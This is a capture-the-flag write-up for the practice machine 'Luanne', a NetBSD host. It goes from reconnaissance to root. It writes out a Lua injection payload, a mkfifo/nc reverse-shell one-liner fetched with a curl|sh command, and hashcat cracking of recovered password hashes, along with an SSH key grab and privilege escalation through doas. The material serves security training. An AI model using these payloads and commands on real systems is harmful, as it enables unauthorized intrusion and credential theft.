

Luanne
1. Information
- NetBSD
- Easy class
- Released Nov 2020
- Retired Mar 2021
Luanne is an easy-rated NetBSD machine featuring an exploitable Lua service and password cracking.
2. Foothold
nmap -sC -sV -T4 -v luanne.htb shows two open HTTP services and SSH. Both HTTP servers have HTTP Basic authentication in place and return 401 Unauthorized. It also shows that the machine may be NetBSD.
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.0 (NetBSD 20190418-hpn13v14-lpk; protocol 2.0)
| ssh-hostkey:
| 3072 20:97:7f:6c:4a:6e:5d:20:cf:fd:a3:aa:a9:0d:37:db (RSA)
| 521 35:c3:29:e1:87:70:6d:73:74:b2:a9:a2:04:a9:66:69 (ECDSA)
|_ 256 b3:bd:31:6d:cc:22:6b:18:ed:27:66:b4:a7:2a:e4:a5 (ED25519)
80/tcp open http nginx 1.19.0
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_ Basic realm=.
| http-methods:
|_ Supported Methods: GET HEAD POST
| http-robots.txt: 1 disallowed entry
|_/weather
|_http-server-header: nginx/1.19.0
|_http-title: 401 Unauthorized
9001/tcp open http Medusa httpd 1.12 (Supervisor process manager)
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_ Basic realm=default
|_http-server-header: Medusa/1.12
|_http-title: Error response
Service Info: OS: NetBSD; CPE: cpe:/o:netbsd:netbsd
On port 80 however, /robots.txt has a comment hint: Disallow: /weather #returning 404 but still harvesting cities . Accessing /weather returns 404 as described, so let's fuzz it a bit.
A scan with gobuster dir -u http://luanne.htb/weather -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-small.txt will give us a new path at forecast that exposes a JSON service. Following the instructions and supplying the GET parameter ?city=list will give us a list of cities.

Fuzzing the city parameter a bit with ' result in a Lua error:
Lua error: /usr/local/webapi/weather.lua:49: attempt to call a nil value. We now
know there's a weather.lua file responding to our queries.
It seems that the parameter may be put inside a function call which could allow it to be escaped by
terminating the line in a payload. This is confirmed with a city=Leeds');+print(2-2);
-- which tries to search for a city named Leeds0. We have Lua RCE.
Taking it further we can recon a bit with the os.execute() Lua function. city=Leeds'); os.execute("ls -lah /bin"));. Further recon confirms that both curl and sh binaries are available.
Getting urlencodes correctly when providing payloads may prove tricky -- let's try downloading a reverse shell and executing it with sh. Create a file echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.41 4444 >/tmp/f" > sh.sh and start a python3 -m http.server. Then after running nc -lvnp 4444 send the following payload to gain a shell: Leeds%27);%20os.execute("curl+10.10.14.41:8000/sh.sh+|sh");%20--
nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.41] from (UNKNOWN) [10.129.126.48] 65406
sh: can't access tty; job control turned off
$ id
uid=24(_httpd) gid=24(_httpd) groups=24(_httpd)
3. User
uname -a will confirm that the machine is indeed NetBSD.
First, ls -lah in the current directory will display a .htpasswd file with one entry for webapi_user. This is likely to be the HTTP server credential, so let's crack it with ./hashcat -m 500 '$1$vVoNCsOl$lMtBS6GL2upDbR4Owhzyc0' rockyou.txt.
$1$vVoNCsOl$lMtBS6GL2upDbR4Owhzyc0:iamthebest
Looking at the processes that are running with ps aux, there's an internal server on port 3001 run by r.michaels, the user on this system. curl without credentials will again fail to 401 Unauthorized, but trying with the webapi_user credentials will return 200.
Another useful clue is in the process flags. Looking online for netbsd httpd man will tell us that the -u flag will host a user's ~/username/public_html in the address http://ip/~username/. curl confirms this in tells us that there's an id_rsa file in the directory.
We can exfiltrate this key to our attacking machine and try to log in with ssh -i id_rsa r.michaels@luanne.htb, which works. We can now grab the user key.
4. Root
Running ls -lah again gives us some useful directories.
luanne$ ls -lah
total 7.6K
dr-xr-x--- 7 r.michaels users 512B Sep 16 2020 .
drwxr-xr-x 3 root wheel 512B Sep 14 2020 ..
-rw-r--r-- 1 r.michaels users 1.7K Feb 14 2020 .cshrc
drwx------ 2 r.michaels users 512B Sep 14 2020 .gnupg
-rw-r--r-- 1 r.michaels users 431B Feb 14 2020 .login
-rw-r--r-- 1 r.michaels users 265B Feb 14 2020 .logout
-rw-r--r-- 1 r.michaels users 1.5K Feb 14 2020 .profile
-rw-r--r-- 1 r.michaels users 166B Feb 14 2020 .shrc
dr-x------ 2 r.michaels users 512B Sep 16 2020 .ssh
dr-xr-xr-x 2 r.michaels users 512B Nov 24 09:26 backups
dr-xr-x--- 4 r.michaels users 512B Sep 16 2020 devel
dr-x------ 2 r.michaels users 512B Sep 16 2020 public_html
-r-------- 1 r.michaels users 33B Sep 16 2020 user.txt
The backups directory has a devel_backup-2020-09-16.tar.gz.enc file, which seems to be an encrypted archive.
The .gpg directory could hint that it was encrypted with pgp and might contain the keys to reverse this. The NetBSD version of this is netpgp, which can be used to decrypt the archive.
luanne$ netpgp --decrypt backups/devel_backup-2020-09-16.tar.gz.enc --output /tmp/bak.tar.gz
signature 2048/RSA (Encrypt or Sign) 3684eb1e5ded454a 2020-09-14
Key fingerprint: 027a 3243 0691 2e46 0c29 9f46 3684 eb1e 5ded 454a
uid RSA 2048-bit key
luanne$ cd /tmp
luanne$ tar xvf bak.tar.gz
The archive is decompressed as /tmp/devel-2020-09-16, and inside we find another /tmp/devel-2020-09-16/www/.htpasswd with a different hash. hashcat -m 500 '$1$6xc7I/LW$WuSQCS6n3yXsjPMSmwHDu.' lists/rockyou.txt cracks the password which is littlebear.
Since there are no other users, it may be r.michaels user's password and may be used to escalate to superuser. On NetBSD the sudo equivalent is doas.
luanne$ doas -u root /bin/sh
Password: littlebear
# id
uid=0(root) gid=0(wheel) groups=0(wheel),2(kmem),3(sys),4(tty),5(operator),20(staff),31(guest),34(nvmm)
After gaining root access we grab the flag.